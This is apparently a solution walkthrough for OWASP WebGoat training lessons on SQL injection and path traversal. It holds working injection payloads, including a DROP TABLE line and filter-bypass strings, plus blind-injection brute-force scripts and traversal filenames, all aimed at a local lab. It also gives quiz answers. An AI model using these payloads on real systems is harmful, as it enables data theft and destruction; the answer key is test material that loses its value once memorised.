



# (A1) Injection

## SQL Inejction (intro)

### Lesson 2: What is SQL?

``` sql
SELECT department FROM employees WHERE first_name = 'Bob'
```

### Lesson 3: Data Manipulation Language (DML)

``` sql
UPDATE employees SET department='Sales' WHERE first_name = 'Tobi'
```

### Lesson 4: Data Definition Language (DDL)

``` sql
ALTER TABLE employees ADD phone varchar(20)
```

### Lesson 5: Data Control Language (DCL)

``` sql
GRANT SELECT, UPDATE, INSERT ON TABLE grant_rights TO unauthorized_user
```

### Lesson 9: Try It! String SQL injection

1. `'`
2. `or`
3. `'1'='1`

### Lesson 10: Try It! Numeric SQL injection

1. `1`
2. `1 or 1=1`

### Lesson 11: Compromising confidentiality with String SQL injection

1. `Smith`
2. `3SL99A' or 1 = '1`

### Lesson 12: Compromising Integrity with Query chaining

1. `Smith`
2. `3SL99A'; UPDATE employees SET SALARY=90000 WHERE userid='37648`

### Lesson 13: Compromising Availability

1. `'; DROP TABLE access_log;--`

## SQL Injection (advanced)

### Lesson 3: Try It! Pulling data from other tables

1. Name: `Smith'; SELECT * FROM user_system_data WHERE 1='1`

### Lesson 5: Blind SQL injection

The first tricky lesson. The goal is to retrive Tom\`s password. The `Register` tab returns different user names if one is already registered. That is your way in.

``` sql
tom' AND substring(password,1,1) = 't
```

`User {0} already exists please try to register with a different username.`

``` sql
tom' AND substring(password,1,1) = 'a
```

`User tom' AND substring(password,1,1) = 'a created, please proceed to the login page.`

Thankfuly email can be the same every time. So it is time to write the script to brute force password.

``` js
async function tryRegister(n) {
  const options = {
    method: "PUT",
    headers: {
      "Accept": "application/json",
      "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
      "Cookie": "JSESSIONID=wVOZgVTHAiWKuaok8Mvwam7Dw",
    }
  }

  const url = "http://localhost:8081/WebGoat/SqlInjectionAdvanced/challenge"
  const alphabet = 'abcdefghijklmnopqrstuvwxyz';
  let password = "";

  for (let i = 0; i < n; i++) {
    let letter;
    for (let j = 0; j < alphabet.length; j++) {
      letter = alphabet.charAt(j)
      const response = await fetch(url, {
        ...options,
        body: `username_reg=tom'+AND+substring(password%2C${i + 1}%2C1)+%3D+'${letter}&email_reg=tom%40gmail.com&password_reg=123&confirm_password_reg=123`,
      });
      const json = await response.json();

      if (!json.feedback.startsWith('User tom')) {
        password += letter;
        console.log(`${i + 1}/${n}`, letter);
        break;
      }
    }
  }
  return password;
}

console.log(await tryRegister(23))
```

*there might be different session id

login: `tom`
password: `thisisasecretfortomonly`

### Lesson 6: The Quiz

1. Solution 4: A statement has got values instead of a prepared statement\
2. Solution 3: ?\
3. Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.\
4. Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.\
5. Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.

## SQL Injection (Mitigation)

### Lesson 5: Try it! Writing safe code

1. `getConnection`
2. `PreparedStatement statement`
3. `prepareStatement`
4. `?`
5. `?`
6. `statement.setString(1, name)`
7. `statement.setString(2, mail)`

### Lesson 6: Try it! Writing safe code

``` java
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE name=?");
    stmt.setString(1, "name");
    stmt.executeQuery();
} catch (Exception e) {
    System.out.println(e.getMessage());
}
```

### Lesson 9: Input validation alone is not enough

``` sql
a';	SELECT	*	FROM	user_system_data;--
```

#### Alternative solution

``` sql
a';/**/select/**/*/**/from/**/user_system_data;--
```

### Lesson 10: Input validation alone is not enough

``` sql
a';	SSELECTELECT	*	FFROMROM	USER_SYSTEM_DATA;--
```

### Lesson 12: Getting IP address

The idea is pretty similar to finding Tom\`s password. Then we can only sort table items and that way we retrive information about server ip address.

``` js
position = 1;
Array.from({ length: 10 }, (_, k) => k).forEach(async item => {
    const response = await fetch(`http://localhost:8081/WebGoat/SqlInjectionMitigations/servers?column=(case+when+exists(select+ip+from+servers+where+hostname+=+%27webgoat-prd%27+and+substring(ip,${position},1)=%27${item}%27)+then+ip+else+id+end)`);
    json = await response.json();
    console.log(`${item}`, json);   
});
```

The request is prepared so it sorts by `ip` if n-th number of ip equals number in request, else it sorted by `id`. Then you can extract exceptionally sorted requests and find ip number one by one.


The ip addres is `104.130.219.202`

## Path Traversal

## Lesson 2: Path traversal while uploading files

In this assignment the goal is to overwrite a specific file on the file system.

- Upload photo
- change user name to `../test`

## Lesson 3: Path traversal while uploading files

In this assignment the goal is to overwrite a specific file on the file system.

- Upload photo
- change user name to `....//test`

## Lesson 4: Path traversal while uploading files

In this assignment the goal is to overwrite a specific file on the file system.

- Upload photo
- Submit request
- Catch request in Burp Suite
- Change filename to `../test`

## Lesson 5: Path traversal while uploading files

In this assignment try to find a file called `path-traversal-secret.jpg`

- Button invokes `newRandomPicture()` function.
- In the Network tab you can find `Location` in `Response Headers`. It looks like path.
  
  

- Catch this request in Burp Suite and send it to Repeater
- Encode `../../path-traversal-secret` to `%2e%2e%2f%2e%2e%2fpath-traversal-secret`.

  

- The response is `You found it submit the SHA-512 hash of your username as answer`

- Run

    ``` bash
    echo -n "username" | openssl dgst -sha512
    ```

  My was `ddf8aa1587733fdb34f0884d644f751cec71356868f4101079f2547341dd3df7d9ae0cd94d485efbdbce41e8d6ca903fcd37ff16222e92cfe5ac4911ed0ae265`

### Lesson 7: This one is bugged

Just put an image to zip archive and upload. It will be marked as done.
